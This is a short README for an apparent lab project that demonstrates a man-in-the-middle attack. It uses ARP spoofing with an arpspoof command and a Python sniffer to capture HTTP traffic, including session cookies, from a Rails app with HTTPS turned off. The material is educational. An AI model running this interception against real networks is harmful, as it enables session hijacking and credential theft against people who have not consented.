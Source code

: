 ## Overview
This project demonstrates a basic Man-In-The-Middle (MITM) attack using ARP spoofing to intercept HTTP traffic in a local network.

## Key Features
- ARP Spoofing with `arpspoof`
- HTTP traffic sniffing using Python
- Target app: Ruby on Rails server for meetings
- HTTPS disabled for demonstration

## Setup
1. Launch the Rails app on a LAN IP (port 3000)
2. Disable HTTPS: `config.force_ssl = false`
3. Run ARP spoofing:
   ```bash
   sudo arpspoof -i eth0 -t [Victim-IP] [Router-IP]
4. Run Python sniffer script (included in sniffer.py)
5. Simulate traffic using:  ```bash
    curl http://[Victim-IP]:3000

 Sample output : 
 
 GET /meetings HTTP/1.1
User-Agent: curl/7.81.0
Cookie: session_id=abcd1234

## What I Learned:

Risks of using HTTP in local networks

Low-level network attack mechanics

Building sniffer tools with Python
